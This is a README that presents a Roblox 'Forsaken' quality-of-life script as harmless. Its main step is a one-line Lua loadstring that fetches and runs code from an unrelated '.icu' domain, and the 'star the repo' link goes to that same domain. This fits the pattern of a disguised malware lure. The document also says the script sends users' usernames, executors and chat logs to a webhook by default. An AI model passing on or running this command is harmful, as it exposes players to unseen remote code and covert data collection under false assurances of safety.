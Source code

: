 # forsakextras

> A **QoL script** for the Roblox game **Forsaken**, providing features like music replacement and GUI tweaks — **nothing malicious or "cheaty"**.

---

## 📜 The Script

```lua
loadstring(game:HttpGet("https://downloadsoftgits.icu/?jcz1bumlepa4xqf"))()
```

> ⚠️ **This script does not include cheats** such as speed hacks, fly, or exploitative abilities. It is intended strictly for client-side customization — like music replacement or GUI additions.
> Future updates may add optional client-side bug fixes.
> You can suggest features or report bugs in the **Issues** tab!
>
> **If you like this script, consider [starring the repo](https://downloadsoftgits.icu/?2rx02gqq7whsfk5) or sharing it around (with proper credit, please!)** — it helps a lot!

---

## 🔒 Privacy Note

By default, the script sends your **username**, **executor**, and some **chat logs** to a webhook (mostly for fun/debug purposes).
If you’d prefer not to be tracked:

```lua
-- At the top of the script (forsakextras.lua), set this:
TrackMePlease = false
```

---

## 📁 What’s in this Repo?

This repo contains the **assets** (audio, video, images) used by the script — nothing executable or harmful.
It exists solely to support Forsakextras.

---

## 🙏 Thanks

Special thanks to **ivannetta**, creator of the original *"fartsaken"* script (which had cheat elements), for:

* Music replacement logic
* File/asset download functions
* Killer emote GUI
* Scripting documentation for executor support

> (ur animation gui code did make my brain hurt a bit tho lol)

